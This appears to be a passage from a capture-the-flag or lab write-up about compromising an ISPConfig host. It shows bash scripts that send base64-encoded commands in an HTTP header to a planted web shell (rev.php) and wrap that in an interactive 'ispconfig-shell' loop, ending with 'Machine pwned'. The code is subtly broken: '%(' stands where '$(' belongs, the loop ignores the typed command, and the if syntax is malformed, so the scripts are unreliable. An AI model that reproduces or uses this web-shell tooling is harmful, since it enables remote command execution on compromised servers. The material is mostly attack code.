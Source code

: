 ```bash
ENCODED=$(echo -n "id" | base64 -w0)
RESP=%(curl -sk -H "C: $ENCODED" "http://127.0.0.1:8000/admin/rev.php")
echo $RESP
```

<br/><br/>
![image.png]({{ '/assets/images/3504a2b6-e9c0-430d-b937-f7ad30743c1c-export-7da3f4a5-05b5-4c03-83a8-e4e8d58e7c91/3504a2b6-e9c0-430d-b937-f7ad30743c1c-export-7da3f4a5-05b5-4c03-83a8-e4e8d58e7c91_f78240ef_fa79_477c_9fe3_07e1a660b7a3.png' | relative_url }})
<br/><br/>
Or automating a shell in bash
<br/><br/>

```bash
while true; do
	echo -en "ispconfig-shell# "
	read -r CMD || continue
	[[ "$CMD" == "exit" ]] && break
	
	ENCODED=$(echo -n "id" | base64 -w0)
	RESP=%(curl -sk -H "C: $ENCODED" "http://127.0.0.1:8000/admin/rev.php")
	
	PAYLOAD=$(echo "$RESP" | grep -ozP '(?<=___)(.|\n)*?(?=___)' | tr -d '\0')
	if [[ -n "$PAYLOAD"]]; do
		echo "$PAYLOAD"
	else
		echo "[!] No output detected"
	fi
	
	echo ""
done
	
```

<br/><br/>
![image.png]({{ '/assets/images/3504a2b6-e9c0-430d-b937-f7ad30743c1c-export-7da3f4a5-05b5-4c03-83a8-e4e8d58e7c91/3504a2b6-e9c0-430d-b937-f7ad30743c1c-export-7da3f4a5-05b5-4c03-83a8-e4e8d58e7c91_40fd6f42_d0fd_4b10_acc6_4abcccb0a23b.png' | relative_url }})
<br/><br/>
Machine pwned@!@!#

<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>


<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">
